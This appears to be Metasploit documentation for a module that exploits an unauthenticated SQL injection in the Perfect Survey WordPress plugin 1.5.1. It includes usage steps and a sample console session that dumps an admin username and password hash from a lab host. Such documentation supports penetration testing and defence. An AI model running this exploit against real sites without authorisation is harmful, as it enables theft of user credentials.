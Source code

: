## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability
via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information,
such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/).
The specific vulnerable version can be found here: https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Start `msfconsole`.
3. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
4. Set the target host: `set RHOSTS [ip]`.
5. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
6. Execute the module: `run`.
7. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```sh
msf > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf auxiliary(scanner/http/wp_perfect_survey_sqli) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf auxiliary(scanner/http/wp_perfect_survey_sqli) > set RPORT 8000
RPORT => 8000
msf auxiliary(scanner/http/wp_perfect_survey_sqli) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf auxiliary(scanner/http/wp_perfect_survey_sqli) > exploit 
[*] Running module against 192.168.1.104

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Exploiting SQLi in Perfect Survey plugin...
[*] Extracting credential information

WordPress User Credentials
==========================

 Username  Email                Hash
 --------  -----                ----
 admin     admin@localhost.com  $P$BwkQxR6HIt64UjYRG4D5GRKYdk.qcR1
msf auxiliary(scanner/http/wp_perfect_survey_sqli) >
```
